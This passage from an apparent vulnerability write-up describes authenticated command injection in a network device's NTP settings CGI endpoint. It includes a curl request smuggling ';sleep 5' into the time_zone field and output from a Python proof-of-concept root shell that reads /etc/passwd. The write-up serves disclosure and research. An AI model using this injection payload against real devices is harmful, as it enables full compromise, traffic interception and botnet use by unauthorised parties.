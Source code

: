 With the valid session token, I attempted to set the NTP configuration using an injected command. To verify code execution, I used the simplest `sleep` command to test:
```
❯ time curl -X POST http://192.168.5.12/cgi-bin/cgi_vista.cgi \
  -H "Content-Type: application/json;charset=UTF-8" \
  -b "SESSION_ID=<SESSION COOKIE>" \
  -d "{\"cgid\":\"55\",\"ntp_enable\":\"1\",\"time_zone\":\"\';sleep 5\'\",\"ntp_server\":[\"ntp.org\"]}"
{
        "errmsg":       "success",
        "restcode":     2000,
        "locktime":     0
}
real    5.06s
user    0.00s
sys     0.01s
cpu     0%
```
With the delay confirmed, the command injection was verified.

From this point onward, there were multiple ways to gain root shell and fully compromise the device.

I built a simple Python PoC shell, which I then used to change the root password, granting me full root access.

Quick demo of the PoC:
```
❯ python exploit.py
[*] Checking connection to target 192.168.5.12...
192.168.5.12 is reachable
[+] Target is reachable.
[+] Authenticated to server. Session id=<SESSION COOKIE>
[*] Testing command injection...
[+] Simple Python shell opened.

> id
uid=0(root) gid=0(root)

> cat /etc/passwd
root:x:0:0:root:/root:/bin/ash
daemon:*:1:1:daemon:/var:/bin/false
ftp:*:55:55:ftp:/home/ftp:/bin/false
network:*:101:101:network:/var:/bin/false
nobody:*:65534:65534:nobody:/var:/bin/false
```
## Impact
This authenticated RCE vulnerability enabled full device compromise, posing significant risks, including:
- Network traffic interception (e.g., capturing sensitive data like credentials).
- Malware deployment (e.g., installing persistent malicious code).
- Use as a botnet node (e.g., contributing to large-scale DDoS attacks).

